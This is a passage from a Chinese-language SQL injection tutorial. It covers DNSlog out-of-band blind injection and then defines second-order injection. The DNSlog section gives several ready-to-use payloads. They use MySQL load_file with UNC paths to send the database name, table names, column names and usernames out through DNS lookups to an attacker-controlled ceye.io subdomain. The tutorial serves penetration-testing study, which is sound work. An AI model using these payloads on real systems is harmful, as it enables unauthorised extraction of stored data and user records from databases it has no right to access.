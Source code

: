 [http://ceye.io](http://ceye.io/)

[http://www.dnslog.cn](http://www.dnslog.cn/)

### DNSlog盲注操作方式

#### Payload1：

```sql
?Id=1’and load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\sql'))--+
//相应的更换 select database()查询语句便可以实现DNS外带的回显注入，其中c4d3hg.ceye.io为ceye.io平台给每个账号的昵称
```

查询当前数据库：

```sql
and load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\sql'))--+
//xtftm5.ceye.io根据ceye平台给你的域名更改，\\sql是域名目录，随意即可，select database()换成sql注入payload即可
```

查询表名：

```sql
and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security'limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

查询列名：

```sql
and load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

查询数据：

```sql
and load_file(concat('\\\\',(select username from users limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

#### Payload2：

```sql
and (select load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\aaa')))#
```

原理跟上面差不多

## 二次注入

### 定义

所谓二次注入是指已存储（数据库、文件）的用户输入被读取后再次进入到SQL 查询语句中导致的注入。 二次注入是sql注入的一种，但是比普通sql注入利用更加困难，利用门槛更高。 普通注入数据直接进入到SQL 查询中，而二次注入则是输入数据经处理后存储，取出后，再次进入到SQL 查询。

### 原理

二次注入的原理，在第一次进行数据库插入数据的时候，仅仅只是使用了 addslashes 或者是借助 get_magic_quotes_gpc 对其中的特殊字符进行了转义，在写入数据库的时候还是保留了原来的数据，但是数据本身还是脏数据。
